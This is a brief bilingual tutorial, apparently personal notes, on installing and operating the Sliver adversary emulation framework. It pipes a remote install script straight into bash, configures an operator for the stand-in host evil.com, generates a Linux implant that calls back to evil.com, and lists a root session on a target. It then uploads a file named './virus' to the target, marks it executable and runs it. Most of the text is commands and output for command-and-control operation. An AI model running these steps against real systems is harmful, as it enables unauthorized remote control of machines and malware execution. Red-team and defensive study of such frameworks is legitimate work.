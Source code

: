 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/script/raw/main/sliver_install.sh | bash
```

## 2. Init

### 2.1. Server

开机自启

```
┌──(nemo@debian)-[~]
└─$ sudo systemctl enable --now sliver-server.service
```

开放端口用于建立通信

```
┌──(nemo@debian)-[~]
└─$ sudo ufw allow 31337
```

导出配置文件

```
┌──(nemo@debian)-[~]
└─$ sliver-server operator -n nemo -l evil.com -p 31337 -s ~/.sliver
```

### 2.2. Client

导入配置文件

```
┌──(nemo@debian)-[~]
└─$ sliver-client import ~/.sliver/nemo_evil.com.cfg
```

## 3. Usage

运行 Client

```
┌──(nemo@debian)-[~]
└─$ sliver-client
```

退出 Client

```
sliver > exit
```

查看已加入的控制器

```
sliver > operators
```

生成 Implant

```
sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
sliver > mtls -l 65135
```

查看监听任务

```
sliver > jobs
```

等待目标执行 Implant 后查看会话

```
sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
sliver > use  685a7144
```

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./virus ./path
```

添加执行权限

```
[server] sliver (implant) > chmod ./virus 755
```

执行程序

```
[server] sliver (implant) > execute ./virus
```

---

References

- [sliver](https://github.com/BishopFox/sliver)

